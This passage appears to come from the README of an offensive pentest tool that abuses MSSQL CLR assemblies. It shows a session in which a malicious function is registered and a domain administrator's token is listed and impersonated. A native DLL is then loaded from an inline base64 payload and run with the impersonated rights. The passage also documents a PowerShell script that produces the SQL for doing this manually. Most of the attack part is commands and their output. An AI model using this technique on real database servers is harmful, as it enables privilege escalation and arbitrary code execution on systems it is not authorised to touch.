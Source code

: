 Finally we use the python script. In order to explicit the use of an unmanaged DLL, the script must be called with the flag ```-um```/```--unmanaged```.

```
$ python3 hansql.py x:y@z.z.z.z -dll unmanaged/testdll/x64/Release/testdll.dll -um

<SNIP>

[SQL] > CREATE FUNCTION [dbo].FQKegZnK(@us NVARCHAR(MAX), @d NVARCHAR(MAX)) RETURNS NVARCHAR(MAX) AS EXTERNAL NAME fLgtsTjZ.program.run
[SQL] > SELECT dbo.FQKegZnK('w','')
----------------------   
NT Service\MSSQLSERVER   

[SQL] > SELECT dbo.FQKegZnK('l','')
-----------------------------------------------------------------------------------------------------------------------------------------------------------------   
nt service\mssqlserver* (+) -> 212 || macfi\iabad.adm* -> 1056 

[-->] Supply valid token id to impersonate or supply any other thing to exit: 1056
[SQL] > SELECT dbo.FQKegZnK('1056','TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAA....')
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
[+] Impersonated!
[!] Native DLL loaded, now executing:

[+] Accessing c:\ from native DLL!
c:\$Recycle.Bin
c:\Config.Msi
c:\Documents and Settings
c:\pagefile.sys

<SNIP>
```

## Manual execution
The powershell script is also designed to facilitate manual execution of the technique in case that the ```hansql.py``` can't be used. The purpouse of this option is to automate the generation of the several SQL commands required to manually execute the actions performed by ```hansql.py```, which can then be directly run on the database itself. 

```
$ Get-Help .\build.ps1

NAME
    C:\Pentest\investigations\sql\Handly-main\MSSQL\build.ps1

SINOPSIS
    .\build.ps1 -option list [-show]
    .\build.ps1 -option whoami [-show]
    .\build.ps1 -option managed [-show]
    .\build.ps1 -option ummanaged [-show]


SINTAXIS
    C:\Pentest\investigations\sql\Handly-main\MSSQL\build.ps1 [-Option] <String> [-Show] [<CommonParameters>]


DESCRIPTION
    This script compiles the neccesary assemblies used in the hansql.py script. It can also output the SQL commands to manually load the assemblies inline
    and perform the desired actions according to the given option.
```